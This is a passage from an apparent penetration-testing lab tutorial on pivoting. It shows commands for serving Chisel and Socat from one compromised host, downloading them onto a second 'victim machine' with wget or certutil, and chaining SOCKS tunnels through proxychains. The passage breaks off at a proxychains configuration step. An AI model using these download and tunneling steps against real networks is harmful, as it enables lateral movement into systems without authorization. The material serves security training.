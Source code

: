 <figure><img src="../../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>

All right! We stop listening on the Kali and to reach the third machine, we've to do the same procedure.

\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

We need Chisel and Socat on target 2, then we transfer it as always, but using target 1 machine and not Kali.&#x20;

<pre class="language-bash"><code class="lang-bash"><strong>#Target 1
</strong><strong>python3 -m http.server 80 #target 1, on the same directory of chisel
</strong></code></pre>

<pre class="language-bash"><code class="lang-bash"><strong>#Target 2
</strong>proxychains ssh ubuntu@20.20.20.4 #access to target 2 from kali
wget http://20.20.20.7/* #download chisel and socat (if victim machine has Linux OS)
certutil -urlcache -split -f http://20.20.20.7/* #download chisel and socat (if victim machine has Windows OS)
chmod +x chisel #give execution permission
chmod +x socat #give execution permission
</code></pre>

Then, we need to open a new tunnel connection on Kali machine, therefore we execute a 2nd session of target 1 on a different port of socks5.

#### Setting proxychains

With root privileges edit the file `/etc/proxychains4.conf`. At the bottom, you should add the following line:
